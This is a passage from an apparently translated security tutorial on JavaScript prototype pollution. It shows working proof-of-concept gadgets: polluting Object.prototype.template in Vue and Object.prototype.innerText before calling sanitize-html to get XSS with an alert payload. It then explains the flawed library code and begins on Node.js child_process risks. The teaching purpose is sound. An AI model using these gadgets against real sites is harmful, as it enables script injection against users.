 ``` html
      }
    });
  </script>
</body>
</html>
```

A seemingly harmless Vue hello world, after we pollute `Object.prototype.template`, becomes an XSS that allows us to insert any code.

Or like this ([demo webpage](https://aszx87410.github.io/demo/prototype-pollution/vue.html)):

``` html
<!DOCTYPE html>

<html lang="en">
<head>
  <meta charset="utf-8">
  <script src="https://cdnjs.cloudflare.com/ajax/libs/sanitize-html/1.27.5/sanitize-html.min.js"></script>
</head>
<body>
  <script>
    Object.prototype.innerText = '<svg onload=alert(1)></svg>';
    document.write(sanitizeHtml('<div>hello</div>'))
  </script>
</body>
</html>
```

Although it is a library for sanitizing, after polluting `Object.prototype.innerText`, it becomes a good helper for XSS.

Why do these problems occur? Taking `sanitize-html` as an example, it is because of this piece of code:

``` js
if (frame.innerText && !hasText && !options.textFilter) {
    result += frame.innerText;
}
```

Because innerText is directly assumed to be a safe string by default, it is directly concatenated. After we pollute this property, when this property does not exist, the value of the prototype will be used, and finally it becomes an XSS.

In addition to client-side, server-side Node.js also has similar risks, such as:

``` js
const child_process = require('child_process')
const params = ['123']
const result = child_process.spawnSync(
  'echo', params
);
console.log(result.stdout.toString()) // 123
```
